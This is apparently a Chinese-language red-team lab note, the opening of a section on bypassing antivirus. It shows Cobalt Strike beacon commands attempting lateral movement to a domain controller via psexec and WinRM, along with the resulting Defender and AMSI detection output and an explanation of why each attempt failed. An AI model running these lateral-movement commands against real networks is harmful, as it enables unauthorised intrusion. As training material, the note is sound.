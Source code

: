 # Bypassing Antivirus

可以列举C盘，但是无法横向，考虑bypass antivirus，如下显示
```
beacon> ls \\dc-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 11:11:35   $Recycle.Bin
...<skip>...

beacon> jump psexec64 dc-2 smb
[-] Could not start service c8e8647 on dc-2: 225
[-] Could not connect to pipe: 2

beacon> jump winrm64 dc-2 smb
[-] Could not connect to pipe: 2

#< CLIXML
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><Obj S="progress" RefId="0"><TN RefId="0"><T>System.Management.Automation.PSCustomObject</T><T>System.Object</T></TN><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Searching for available modules</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Processing</T><SR>-1</SR><SD>Searching UNC share \\dc-2\home$\nlamb\Documents\WindowsPowerShell\Modules.</SD></PR></MS></Obj><Obj S="progress" RefId="1"><TNRef RefId="0" /><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Searching for available modules</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD>Searching UNC share \\dc-2\home$\nlamb\Documents\WindowsPowerShell\Modules.</SD></PR></MS></Obj><Obj S="progress" RefId="2"><TNRef RefId="0" /><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj><S S="Error">At line:1 char:1_x000D__x000A_</S><S S="Error">+  Set-StrictMode -Version 2_x000D__x000A_</S><S S="Error">+ ~~~~~~~~~~~~~~~~~~~~~~~~~~_x000D__x000A_</S><S S="Error">This script contains malicious content and has been blocked by your antivirus software._x000D__x000A_</S><S S="Error">    + CategoryInfo          : ParserError: (:) [], ParseException_x000D__x000A_</S><S S="Error">    + FullyQualifiedErrorId : ScriptContainedMaliciousContent_x000D__x000A_</S><S S="Error">    + PSComputerName        : dc-2_x000D__x000A_</S><S S="Error"> _x000D__x000A_</S></Objs>
```

上面xml文字出现了**This script contains malicious content and has been blocked by your antivirus software**字样，表明程序被AMSI（antimalware scan interface）杀掉了

```Get-MpThreatDetection```是一个 Windows Defender cmdlet，可以显示检测到的威胁
```
beacon> remote-exec winrm dc-2 Get-MpThreatDetection | select ActionSuccess, DomainUser, ProcessName, Resources

ActionSuccess  : True
DomainUser     : 
ProcessName    : Unknown
Resources      : {file:_C:\Windows\c8e8647.exe, file:_\\dc-2\ADMIN$\c8e8647.exe}
PSComputerName : dc-2
RunspaceId     : 19a06a6d-7a99-4df2-926b-415b8de45b04

ActionSuccess  : True
DomainUser     : DEV\nlamb
ProcessName    : C:\Windows\System32\wsmprovhost.exe
Resources      : {amsi:_C:\Windows\System32\wsmprovhost.exe}
PSComputerName : dc-2
RunspaceId     : 19a06a6d-7a99-4df2-926b-415b8de45b04
```

第一条是尝试使用```psexec64```,可执行程序```c8e8647.exe```已自动上传到靶机，但是被侦测到并被从硬盘上删除。

第二条是尝试使用```winrm64```,```wsmprovhost.exe```被AMSI从内存中侦测到，并且被阻止执行。